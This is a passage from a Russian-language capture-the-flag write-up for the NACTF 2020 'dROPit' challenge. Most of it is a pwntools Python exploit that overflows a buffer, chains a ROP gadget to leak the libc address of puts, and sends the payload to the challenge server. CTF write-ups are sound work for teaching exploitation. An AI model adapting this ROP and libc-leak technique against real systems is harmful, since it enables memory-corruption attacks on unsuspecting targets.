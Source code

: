 ![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/NACTF%202020/dROPit/assets/puts%40plt_offset.jpg)

Теперь у нас есть всё, чтобы получить утечку `libc`-адреса функции `puts` - воспользуемся модулем `pwntools` для написания эксплойта:

```python3
#!/usr/bin/env python3
from pwn import *
import struct
import binascii

elf = ELF('./dropit')
rop = ROP(elf)

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0] # 0x401203
PUTS_GOT = elf.got['puts'] # 0x403fc8
PUTS_PLT = elf.plt['puts'] # 0x401030
MAIN = elf.symbols['main'] # 0x401146

info('pop rdi gadget: %s' % hex(POP_RDI))
info('puts@got: %s' % hex(PUTS_GOT))
info('puts@plt: %s' % hex(PUTS_PLT))
info('main: %s' % hex(MAIN))

payload = b'A' * 56
payload += p64(POP_RDI)
payload += p64(PUTS_GOT)
payload += p64(PUTS_PLT)
payload += p64(MAIN)

p = remote('challenges.ctfd.io', 30261)

p.recvline()
p.sendline(payload)
puts_remote_raw = p.recv()
p.recvline()

remote_leak = struct.unpack('<Q', puts_remote_raw.ljust(8, b'\x00'))[0]
info('leaked libc address: %s' % hex(remote_leak))
```
